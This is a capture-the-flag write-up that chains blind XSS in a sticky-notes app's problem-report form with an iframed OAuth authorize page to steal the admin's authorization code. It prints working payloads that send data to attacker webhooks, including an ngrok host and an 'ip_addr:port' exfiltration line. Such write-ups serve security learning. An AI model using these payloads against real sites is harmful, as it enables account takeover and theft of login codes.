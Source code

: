 ## Sticky Notes
---
### Description

![img/1.png](img/1.png "img_1")

Given 2 website application 
* `:30783` is an oauth application
* `:30846` is a sticky notes

So, in sticky notes application there's a menu named as `Report a Problem`.

![img/2.png](img/2.png "img_2")

When I try to report a problem, I get a response that our report will be checked by admin. 

![img/3.png](img/3.png "img_3")

My first thought about this, it must be a blind XSS. So, lets give a shot. Let's put an XSS payload and make the client trigger our webhook.

![img/4.png](img/4.png "img_4")
```
<script>
fetch('//6.tcp.ngrok.io:13136/')
</script>
```

Hit the report button and we got a response!
![img/5.png](img/5.png "img_5")

Great, its really blind XSS. But, the cookies is flagged with `HttpOnly` of course, we couldn't steal the cookies.

Lets understanding how is this application work. In sticky notes, if we want to login, We need to login in oauth application first.

Everytime we visit `oauth/oauth/authorize?state=nyx&redirect_uri=sticky-notes/signin_callback` we will get redirected to the value of `redirect_uri`. And the value of `redirect_uri` will have a new parameter called `code` and then the `sticky-notes` will creating a new session for the current logged in user in `oauth` application.

In summarize, the flow of oauth login for this application is something like this

`sticky-notes/oauth/signin -> oauth/oauth/authorize?response_type=code&client_id=QJ7Bo88ZBioNTZSXTOJrMYDx&redirect_uri=http%3A%2F%2Fchallenge.ctf.games%3A30846%2Foauth%2Fsignin_callback&scope=profile&state=nyx&action=signin -> sticky-notes/signin_callback?code=sorcerer&state=nyx -> sticky-notes/`

My first thought about this, "Can I abuse `redirect_uri` and redirected to our webhook and getting the code?"

i was focused on this and forgot `oauth` is vulnerable to clickjacking and we could write javascript onto it.

So, what We need to do is iframing the `oauth/oauth/authorize?redirect_uri=sticky-notes/oauth/signin_callback&state=nyx`

We creating a valid parameter `state` by clicking `sign-in` in `sticky-notes` and intercept our request. Make sure the `state` is not processed by `oauth/oauth/authorize` to make it the `state` is in valid condition

Create a javascript to send the current `location.href` to the our webhook

the final payload will be like this

```
<iframe src="http://challenge.ctf.games:30783/oauth/authorize?response_type=code&client_id=QJ7Bo88ZBioNTZSXTOJrMYDx&redirect_uri=http%3A%2F%2Fchallenge.ctf.games%3A30846%2Foauth%2Fsignin_callback&scope=profile&state=Kjq4dAo18GjizCdF4sYxxO9GVFMddx&action=signin">
</iframe>
<script>
document.querySelector('iframe').addEventListener("load", function(){
    fetch('//ip_addr:port/?'+btoa(this.contentWindow.location.href))
})
</script>
```

![img/6.png](img/6.png "img_6")

Hit the report button and wait a little bits, waiting our javascript is triggered by client user.

![img/7.png](img/7.png "img_7")

Great! we got the `code` let's visit the url we got

![img/8.png](img/8.png "img_8")

We success got admin and of course we got the FLAG!

![img/9.png](img/9.png "img_9")
